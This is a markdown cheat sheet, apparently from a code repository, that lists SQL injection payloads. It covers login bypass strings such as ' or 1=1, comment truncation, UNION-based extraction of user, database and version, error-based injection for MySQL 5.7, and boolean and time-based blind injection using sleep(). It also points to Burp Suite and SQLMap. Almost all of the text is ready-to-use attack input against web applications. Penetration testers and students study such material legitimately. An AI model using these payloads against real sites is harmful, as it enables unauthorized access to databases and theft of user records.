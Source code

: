 # SQL INJECTION

This part shows examples of the most used sql commands injection used to find vulnerabilities to websites or databases.

1. Get whatever user

    ```SQL
    >sabar" or "1"="1"
    >basal" or "1"="1"
    <> select * from login where user="sabar" or "1"="1" and password="basal" or "1"="1"
    # Returns first person logged or account
    ```

2. Get user, and ignore parts or code

    ```SQL
    after: ;
    use: -- # /* - 
    select * from login where user="jonh" or "1"="1"; --and password="pass";
    select * from login where user="jonh" or "1"="1"; # and password="pass";
    select * from login where user="jonh" or "1"="1";-- - and password="pass";
    select * from login where user="jonh" or "1"="1"; /* and password="pass";
        after this close with */
    ```

3. Take atention to single quotes or double quotes

    ```SQL
    select * from login where user='jonh' or 1=1;#
    in a form insert: ' or 1=1:#
    ```

4. Get information from the information_schema database
5. Know the SQL Language or database in the backend with 'select database();'

## Union base SQL-I

use the keyword union in your SQL injection to get information from the database:

**example:** union select user(),database(),version();
this will return the username, database and version from the backend

1. get the number or columns in a table

    suppous a select statement like next:

    ```SQL
    select * from carts;
    # in your browser or form write
    order by 10; -- and you will be able to know if the request in the backend has 10 columns or workaround to figure it out
    order by 15; -- make a range between both to know how many columns are in the record
    ```

    after know how manu columns are in the request of a component, start getting the data from the database

    ```SQL
    -- the numbers of column have to match with the columns in the backend, if not will show an error
    union select user(),database(),version(),4,5,6,9;

    ```

## Error SQL-I

Depends in the product or database system

1. returns data from the database, like this version, database name, user or user admin the database.

    **only works for version 5.7.--**

    ```SQL
    -- in your sql-i insert:
    or 1=1 group by round(rand(0)) having min(0)#
    -- it will return an error
    select name, round(rand(0)) from users group by round(rand(0)) having min(0);
    -- get data in sql
    select name from users group by concat(round(rand(0)), user(), database(), /* whatever */) having min(0);
    ```

## Boolean SQL-I

Use "and" and "or" operators to execute code in the backend or database

1. using "or" "and" operators

    ```SQL
    -- the SQL-I starts after the or/and
    select * from users where name="jonh" or database() like '%a%'
    -- will return all records even if name is not correct, it will look if the database uses an 'a' in the database name

    -- get the length of the database's name
    select * from users where name="jonh" or length(database())=2;
    -- even if the name is correct
    ```

## Time Based SQL-I

Use the function sleep(n) **depends on the database system**
and calculate the time that takes to answer to check if your condition is true or false

1. get database information

    ```SQL
    -- use or/and depending in the SQL-I
    -- it will takes 5 seconds if there is a 'j' in the database's name
    select * from users where name="jo" or if(database()like'%j%', sleep(5), sleep(2));
    -- and of can get more data, like the size of the database's name
    select * from users where name="jo" or if(length(database()) = 2, sleep(5), sleep(2));
    ```

## Tools to Test SQL-I and automated testing

You can use tools available all over the internet but here's a recommended one:
[Burp Suite](https://portswigger.net/burp), which allows in semi-automated test:

1. Automated dynamic scanning
2. Enhanced manual testing

--

Another one is [SQLMap](https://sqlmap.org/) which is full automated tests
visit its website and learn how to use it, it's large and offers many options.
